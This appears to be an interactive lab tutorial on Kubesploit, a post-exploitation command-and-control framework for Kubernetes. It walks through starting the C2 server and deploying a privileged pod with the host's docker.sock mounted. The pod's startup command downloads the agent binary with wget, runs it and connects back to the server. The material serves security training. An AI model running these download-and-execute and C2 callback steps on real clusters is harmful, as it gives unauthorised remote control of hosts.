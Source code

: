 Here we will see the basic settings of Kubesploit.

## Basics of Kubesploit

<p align="left">
  <img src="https://github.com/cyberark/kubesploit/blob/assets/1.5x/kubesploit@1.5x-100.jpg?raw=true" width="200" height="200">
</p>



Kubesploit is a cross-platform post-exploitation HTTP/2 Command & Control server and agent written in Golang, focused on containerized environments.  
More information can be found here:  
https://github.com/cyberark/kubesploit  


#### Server

	
The server is located in the `controlplane` with a configuration file `config.yaml`.    
The server uses this file to create a listener to a given protocol, interface and port.   
The server IP that should be inside the Interface is `echo $HOST_IP`{{execute}}.  

Verify that the `config.yaml` file contains the server IP address: `cat config.yaml`{{execute T1}}

Start the server `./kubesploitServer-Linux-x64`{{execute T1}}.    
To view the menu, run `help`{{execute}}. To see the list of modules, run `use module <TAB>`.  
*You can use the `TAB` in any place to see the list commands.  


#### Agent

`Open`{{execute T3}} new terminal on the master and start this vulnerable container:  
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: priv-container
spec:
  containers:
  - name: priv-container
    image: ubuntu
    command: [ "sh", "-c", "apt update && apt install wget -y && wget https://github.com/cyberark/kubesploit/releases/download/v0.1.0/kubesploitAgent-Linux-x64_katacoda && chmod +x kubesploitAgent-Linux-x64_katacoda && ./kubesploitAgent-Linux-x64_katacoda -url https://$HOST_IP:443 -psk kubesploit & sleep infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: docker-sock
      mountPath: /var/run/docker.sock
  volumes:
  - name: docker-sock
    hostPath:
      path: /var/run/docker.sock
EOF```{{execute T2}}  



Go to the master's "Terminal Host 1" and check if a new connection was received with the message "New authenticated agent checkin..".  
Once you see it, run `agent list`{{execute T1}} to see the new connection details.  

